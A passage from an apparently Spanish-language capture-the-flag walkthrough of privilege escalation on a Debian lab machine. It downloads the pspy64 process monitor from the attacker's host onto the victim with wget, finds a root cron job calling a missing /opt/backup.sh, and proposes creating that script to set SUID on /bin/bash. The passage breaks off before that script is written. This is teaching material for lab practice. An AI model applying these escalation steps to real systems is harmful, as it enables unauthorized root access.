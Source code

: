 ```bash
```
Parece un script que nos conecta a un **servicio SSH** con el **usuario dylan** y su contraseña. Pero, este script no va a funcionar porque la máquina no encuentra el **módulo de paramiko**.

Podríamos aplicar **Python Library Hijacking**, pero como no podemos ejecutar este script con **permisos de sudo**, no tendría sentido intentarlo.

Veamos si podemos encontrar alguna tarea en segundo plano, ya que busque algo con **linpeas.sh**, pero no encontré algo útil que nos ayude a escalar privilegios.

<br>

<h2 id="pspy">Enumeración de Tareas CRON y Aprovechandonos de Estas para Escalar Privilegios</h2>

Aquí puede obtener **pspy64**:
* <a href="https://github.com/DominicBreuker/pspy" target="_blank">Repositorio de DominicBreuker: pspy</a>

Vamos a descargar **pspy64** en la máquina víctima con **wget**:
```bash
www-data@debian:/opt$ 
www-data@debian:/opt$ wget http://Tu_IP/pspy64
--2025-02-27 17:15:11--  http://Tu_IP/pspy64
Connecting to Tu_IP:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: 'pspy64'
.
pspy64           100%[=========================>]   2.96M  --.-KB/s    in 0.04s
.
2025-02-27 17:15:11 (80.3 MB/s) - 'pspy64' saved [3104768/3104768]
```

Ejecútalo y espera unos minutos para ver si aparece algo:
```bash
2025/02/27 17:17:02 CMD: UID=0     PID=2      | 
2025/02/27 17:17:02 CMD: UID=0     PID=1      | init [2]   
2025/02/27 17:18:01 CMD: UID=0     PID=3816   | /usr/sbin/CRON 
2025/02/27 17:18:01 CMD: UID=0     PID=3817   | /usr/sbin/CRON 
2025/02/27 17:18:01 CMD: UID=0     PID=3819   | /bin/sh -c /opt/backup.sh 
2025/02/27 17:19:01 CMD: UID=0     PID=3820   | /usr/sbin/CRON 
2025/02/27 17:19:01 CMD: UID=0     PID=3821   | /usr/sbin/CRON 
2025/02/27 17:19:01 CMD: UID=0     PID=3822   | /bin/sh -c /opt/backup.sh
```
Bien, parece que cada minuto, se intenta ejecutar un script llamado **backup.sh** dentro del directorio `/opt`, pero lo extraño es que ese script no existe dentro del directorio `/opt`.

Entonces, podemos crear este script con el comando que nosotros queramos, por ejemplo, ponerle **permisos SUID a la Bash**.

Podemos revisar los **permisos de la Bash**, así comprobamos que aún no la podemos usar:
```bash
www-data@debian:/opt$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1265648 Apr 23  2023 /bin/bash
```
